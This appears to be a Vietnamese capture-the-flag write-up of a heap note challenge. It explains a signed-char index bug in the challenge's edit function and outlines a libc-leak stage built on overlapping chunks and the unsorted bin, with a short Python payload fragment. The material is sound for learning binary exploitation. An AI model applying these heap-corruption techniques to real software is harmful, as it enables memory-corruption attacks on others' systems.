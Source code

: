     - Chỉ show ra chunk cuối khi ta malloc.
- Edit Note:
    
    ```c
    void edit_note(datanote_t * note) {
    	if(!note) {
    		printf("No Note.\n");
    		return;
    	}
    
    	signed char idx = 0;
    	while(idx <= note->size) {
    		*(&(note->data)+idx) = fgetc(stdin);
    		if (*(&(note->data)+idx) == '\n') {*(&(note->data)+idx) = '\0'; break;}
    		idx++;
    	}
    }
    ```
    
    - Ở hàm này ta chú ý nó khai báo index kiểu signed char mà kiểu signed char có range(-127,127) nên ở đây ta có thể làm cho index âm và sau đó ghi được giá trị vào các vùng nhớ nhỏ hơn.
    - Ta thấy 0x7f(127) sẽ là số lớn nhất nên khi ta malloc 1 chunk với size_input = 0x7f thì ta có thể edit nhiều hơn 127 byte và có số  âm.
- Delete Note:
    
    ```c
    free(note);
    note = 0;
    ```
    
    - Free rồi set null nên sẽ không có UAF.
    

# Exploit

## Leak libc.

- Do có bug số âm ở hàm edit nên ta có thể dùng nó để edit maxsize ở chunk params để mình có thể malloc 1 size bất kì.
- Giờ ta đã có thể malloc 1 size bất kì, có thể edit size của chunk trên thông qua hàm edit vậy thì ta sẽ overlapping chunk để free 1 chunk vào unsorted bin và leak libc. Nhưng ở đây chương trình chỉ cho ta sử dụng 1 chunk nên phải xử lý sao cho:
    
    ```c
    chunk 1(overlap)
    	chunk 2(overlapped by 1)
    chunk 3(prevent consolidate with topchunk)
    top chunk.
    ```
    
    - Ta sẽ edit size chunk 1 bao gồm chunk 2 và nằm trong size của unsorted bin rồi sau đó free chunk 1 ⇒ được đưa vào unsorted bin ⇒ leak libc.

```python
create(0x7f)
payload = "\x00"*212
payload += p64(0x21)
payload += p64(0xffffffffffffffff)
payload += p64(0)*2
payload += p64(0x190)

edit(payload)
```
